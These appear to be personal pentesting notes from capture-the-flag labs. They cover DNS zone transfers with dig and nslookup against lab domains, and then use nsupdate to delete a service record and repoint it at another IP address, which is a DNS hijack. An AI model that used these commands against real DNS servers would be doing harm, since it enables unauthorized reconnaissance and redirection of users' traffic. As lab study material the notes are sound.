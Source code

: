 # dns zone transfer
We will perform DNS zone transfer using the Microsoft tool is  nslookup.exe

Once we execute it, we provide the DNS server that we need to ask, which in this case is the target machine

Now let's try the DNS zone transfer on the domain we find in the AD environment. To add records use the following syntax

```text-plain
dig windcorp.thm any @$IP
```

```text-plain
dig @10.10.175.182 ironcorp.me axfr
```

```text-plain
nslookup.exe
> server 10.10.144.35
> ls -d thmredteam.com
```

use `nsupdate` to add insecure txt records manually

```text-plain
> server 10.10.10.10
> update add test.windcorp.thm 5 TXT "Don't mind me.."
> send
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 86400 A 192.168.16.53
> send
```

BreachingAD:
------------

To configure a custom dns we can use `nmcli` as follows:

```text-plain
nmcli con mod tun0 ipv4.dns "10.200.24.101 1.1.1.1"
systemctl restart NetworkManager
```

where `10.200.24.101` is the ip of the domain controller dns. `1.1.1.1` is added to ensure you still have internet access.